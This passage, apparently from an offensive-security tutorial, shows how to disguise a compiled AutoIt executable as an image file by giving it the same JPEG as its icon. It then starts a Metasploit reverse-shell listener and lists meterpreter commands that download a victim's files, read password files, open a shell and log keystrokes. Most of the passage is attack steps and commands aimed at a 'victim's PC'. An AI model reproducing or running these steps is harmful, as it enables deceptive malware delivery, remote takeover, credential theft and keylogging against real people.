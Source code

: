 _AutoIt is a freeware programming language for Microsoft Windows. In its earliest release, it was primarily intended to create automation scripts for Microsoft Windows._

Add an icon to the file using an online website. Add the AutoIt file as the source. Compile for system x64 by ticking the box. Make the icon out of the same JPEG image that we used for the script, that way when it opens it just shows the same image as the icon. 

Open msfconsole and start a listener:

```sh
msfconsole
```

```sh
use exploit/multi/handler/reverse_tcp
```

Set Options and exploit to start the listener.

We can then test this by downloading the new file from our Windows VM. When the file is ran you'll receive a meterpreter session. 

---

**File control in meterpreter**

Upload file
```sh
upload example.png
```

Delete file
```sh
del example.png
```

Download file from victim's PC
```sh
download stolen-file.txt
```

Read sensitive files
```sh
cat passwords.txt
```

**Other meterpreter commands**

Drop into a normal shell
```sh
shell
```

Capture keyboard 
```sh
keyscan_start
```

Dump data from keyscan
```sh
keyscan_dump
```
